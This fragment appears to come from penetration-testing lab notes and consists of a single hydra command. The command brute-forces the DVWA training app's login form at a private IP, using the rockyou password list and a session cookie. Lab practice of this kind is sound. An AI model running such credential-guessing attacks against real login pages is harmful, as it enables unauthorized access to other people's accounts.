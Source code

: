 hydra -l admin -P /usr/share/wordlists/rockyou.txt 'http-get-form://192.168.186.5/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=rbdeiei3ts55k67tphm4mq05sg;security=low:F=Username\ and/or\ password\ incorrect' > brute_force.txt 
